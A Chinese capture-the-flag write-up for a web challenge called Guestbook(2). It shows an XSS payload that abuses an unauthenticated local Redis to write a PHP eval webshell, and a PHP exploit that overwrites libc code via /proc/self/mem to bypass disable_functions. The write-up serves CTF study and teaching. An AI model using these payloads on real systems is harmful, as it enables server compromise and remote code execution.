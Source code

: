 0x04 Guestbook(2) (web)
=======================

* * *

在guestbook(1)的phpinfo中，发现：

![p12](http://drops.javaweb.org/uploads/images/6d5c80f5e6076ba9e1f027f0de58874a88009358.jpg)

感觉是redis未授权访问，bind 127.0.0.1:6379，结合/admin/show.php中注释里提示的uploads目录，写webshell。

于是初步的想法是通过XSS来访问redis，HTTP头会被当成无效指令，不影响其他行的执行。

```
xmlhttp=new XMLHttpRequest();xmlhttp.open("GET","http://127.0.0.1:6379",false);xmlhttp.send('flushall\r\nset a "<?php eval($_POST[c][/c]);//"\r\nCONFIG SET dir "/usr/share/nginx/html/uploads"\r\nCONFIG SET dbfilename "pkav.php"\r\nBGSAVE\r\nSAVE\r\n');

```

本地Redis测试成功，但在远程服务器上死活写不了shell，后来用nc看了一下:

![p13](http://drops.javaweb.org/uploads/images/c21ecd25473c07dfa9f77c9d23145dfb62440dc4.jpg)

发现会先发一个OPTIONS请求，目测是这个请求失败以后POST包根本没有发出去。

后来经过多次的测试发现，改用form， multipart来换行：

```
f=document.createElement('form');['CONFIG SET dir /usr/share/nginx/html/uploads/','CONFIG SET dbfilename pkav.php','SET PAYLOAD "<?php eval($_POST[1]);?>"','BGSAVE'].forEach(function(e){var i=document.createElement('input');i.name='a';i.value=e;f.appendChild(i);});f.method='POST';f.action='http://127.0.0.1:6379/';f.enctype='multipart/form-data';f.submit();

```

成功拿到webshell。

然后先利用open_basedir的bypass列出来了/目录：

![p14](http://drops.javaweb.org/uploads/images/e24605db239e3ccab1a815138fee24676a5fc2c2.jpg)

发现有个flag_reader，应该是只能通过执行flag_reader来读`/flag`文件。

利用[https://raw.githubusercontent.com/beched/php_disable_functions_bypass/master/procfs_bypass.php](https://raw.githubusercontent.com/beched/php_disable_functions_bypass/master/procfs_bypass.php)这个的思路来bypass disable_functions，不过这个脚本不能直接用，因为/lib没在open_basedir里面，帮pwner把libc跟elf从/proc/self/mem里抠了出来，本来想让他直接去算偏移硬编码进去， 他研究了一下之后说可以直接写代码段，不用改GOT表那么麻烦。

最终利用代码：

```
<?php
  $jmp_system = "\xE9\x2B\xB0\xF5\xFF";
  $system_addr = 0x46640;
  $open_addr = 0xeb610;
  $maps = file_get_contents("/proc/self/maps");
  preg_match('#([0-9a-f]+)\-[0-9a-f]+.+/.+libc\-.+#', $maps, $r);
  $libc_base = hexdec($r[1]); echo $libc_base;
  $file = fopen("/proc/self/mem", "wb");
  fseek($file, $open_addr + $libc_base);
  fwrite($file, $jmp_system, strlen($jmp_system));
  fopen("/flag_reader > /usr/share/nginx/html/uploads/pkav/xxxxxxxxxxxx.txt", 'r');
?>

```
